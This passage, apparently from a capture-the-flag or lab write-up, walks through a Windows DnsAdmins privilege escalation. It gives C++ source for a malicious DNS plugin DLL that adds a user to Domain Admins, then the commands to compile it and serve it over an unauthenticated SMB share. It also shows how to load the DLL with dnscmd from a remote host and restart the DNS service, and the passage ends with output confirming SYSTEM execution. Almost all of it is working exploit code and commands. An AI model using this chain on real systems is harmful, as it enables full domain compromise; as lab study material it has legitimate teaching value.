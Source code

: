 ```cpp
	system("C:\\Windows\\System32\\net.exe user derp Herpderp123! /add /domain");
	system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" derp /add /domain");
	return ERROR_SUCCESS;
}

extern "C" __declspec(dllexport)
DWORD WINAPI DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

extern "C" __declspec(dllexport)
DWORD WINAPI DnsPluginQuery(
	PSTR pszQueryName,
	WORD wQueryType,
	PSTR pszRecordOwnerName,
	PVOID ppDnsRecordListHead)
{
	return ERROR_SUCCESS;
}
```

Then compile the DLL:

```sh
x86_64-w64-mingw32-gcc derp.cpp -shared -o derp.dll

# also share over non-password protected SMB:
impacket-smbserver -smb2support share .
```

And now trigger the exploit:

```powershell
# find where dnscmd.exe lives
dir /s/b c:\dnscmd.exe

# cd to it's directory
cd "c:\Windows\WinSxS\amd64_microsoft-windows-dns-server-dnscmd_31bf3856ad364e35_10.0.14393.3179_none_5cf94ce9a8afe302\"

# add my DLL to be injected
dnscmd localhost /config /serverlevelplugindll \\10.10.14.8\share\derp.dll

# check it's added
reg query HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

# restart DNS service
sc stop dns
sc start dns

# check my code executed:
type c:\users\ryan\documents\whoami.txt
nt authority\system # yes!

# confirm the user was added to the domain
net user derp /domain
# ---- snip ----
Global Group memberships     *Domain Admins        *Domain Users
```
